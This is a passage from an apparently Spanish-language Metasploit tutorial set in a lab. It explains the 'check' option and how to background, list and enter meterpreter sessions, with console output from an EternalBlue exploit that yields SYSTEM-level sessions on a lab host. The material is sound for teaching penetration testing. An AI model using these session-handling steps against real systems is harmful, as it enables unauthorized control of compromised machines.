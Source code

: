 This will return you the context prompt from which you have run the exploit.

Algunos módulos admiten la opción `check`. Esto verificará si el sistema objetivo es vulnerable sin explotarlo.

## Sesiones

Una vez que se ha explotado con éxito una vulnerabilidad, se creará una sesión. Este es el canal de comunicación establecido entre el sistema objetivo y Metasploit.

Puedes usar el comando `background` para enviar la sesión a segundo plano y regresar al aviso de `msfconsole`.

```bash
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Alternativamente, se puede usar `CTRL+Z` para enviar sesiones a segundo plano.

El comando `sessions` se puede utilizar desde el aviso de `msfconsole` o cualquier contexto para ver las sesiones existentes.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 >
```

Para interactuar con cualquier sesión, puedes usar el comando `sessions -i` seguido del número de sesión deseado.
